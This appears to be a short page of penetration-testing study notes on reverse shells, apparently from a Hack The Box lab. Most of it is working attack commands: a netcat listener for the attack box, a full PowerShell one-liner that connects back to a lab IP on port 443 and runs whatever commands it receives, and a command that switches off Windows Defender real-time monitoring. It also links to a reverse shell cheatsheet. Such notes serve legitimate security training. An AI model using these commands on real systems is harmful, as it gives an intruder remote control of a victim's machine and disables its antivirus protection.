 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Reverse Shells

attack box will have a listener running, and the target will need to initiate the connection.

<div data-full-width="true">

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

</div>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

Server (attack box)

```
sudo nc -lvnp 443
```

Client (target)

{% code overflow="wrap" fullWidth="true" %}
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{% endcode %}

Disable AV

```
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```
